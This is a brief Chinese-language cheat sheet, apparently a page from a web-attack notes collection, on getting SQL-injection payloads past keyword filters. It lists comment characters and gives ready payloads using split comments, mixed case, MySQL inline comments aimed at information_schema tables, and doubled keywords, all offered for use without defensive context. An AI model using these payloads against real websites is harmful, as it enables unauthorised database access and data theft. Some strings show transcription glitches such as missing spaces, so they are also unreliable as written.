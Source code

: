 ### 绕过 union，select，where 等

#### 使用注释符绕过

常用注释符：

//，-- , /**/, #, --+, -- -, ;,%00,--a

用法：

`U/**/NION/**/SE/**/LECT/**/user，pwd from user`

#### 使用大小写绕过

`id=-1'UnIoN/**/SeLeCT`

#### 内联注释绕过

`id=-1'/*!UnIoN*/SeLeCT1,2,concat(/*!table_name*/) FrOM/*information_schema*/.tables/*!WHERE*//*!TaBlE_ScHeMa*/like database()#`

#### 双关键字绕过

`id=-1'UNIunionONSeLselectECT1,2,3–-`

